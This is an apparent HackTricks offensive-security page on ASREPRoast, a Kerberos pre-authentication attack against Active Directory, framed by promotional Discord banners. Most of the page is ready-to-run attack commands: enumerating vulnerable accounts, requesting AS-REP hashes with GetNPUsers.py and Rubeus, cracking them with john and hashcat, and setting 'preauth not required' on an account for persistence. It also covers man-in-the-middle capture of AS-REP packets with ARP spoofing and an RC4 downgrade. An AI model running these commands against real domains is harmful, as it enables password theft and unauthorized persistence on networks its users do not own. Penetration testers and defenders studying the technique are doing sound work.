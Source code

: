 # ASREPRoast

{{#include ../../banners/hacktricks-training.md}}

<figure><img src="../../images/image (3).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## ASREPRoast

ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

The main requirements for this attack are:

- **Lack of Kerberos pre-authentication**: Target users must not have this security feature enabled.
- **Connection to the Domain Controller (DC)**: Attackers need access to the DC to send requests and receive encrypted messages.
- **Optional domain account**: Having a domain account allows attackers to more efficiently identify vulnerable users through LDAP queries. Without such an account, attackers must guess usernames.

#### Enumerating vulnerable users (need domain credentials)

```bash:Using Windows
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```

```bash:Using Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```

#### Request AS_REP message

```bash:Using Linux
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```

```bash:Using Windows
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```

> [!WARNING]
> AS-REP Roasting with Rubeus will generate a 4768 with an encryption type of 0x17 and preauth type of 0.

### Cracking

```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```

### Persistence

Force **preauth** not required for a user where you have **GenericAll** permissions (or permissions to write properties):

```bash:Using Windows
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

```bash:Using Linux
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH
```

## ASREProast without credentials

An attacker can use a man-in-the-middle position to capture AS-REP packets as they traverse the network without relying on Kerberos pre-authentication being disabled. It therefore works for all users on the VLAN.\
[ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) allows us to do so. Moreover, the tool forces client workstations to use RC4 by altering the Kerberos negotiation.

```bash
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

## References

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

---

<figure><img src="../../images/image (3).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

{{#include ../../banners/hacktricks-training.md}}

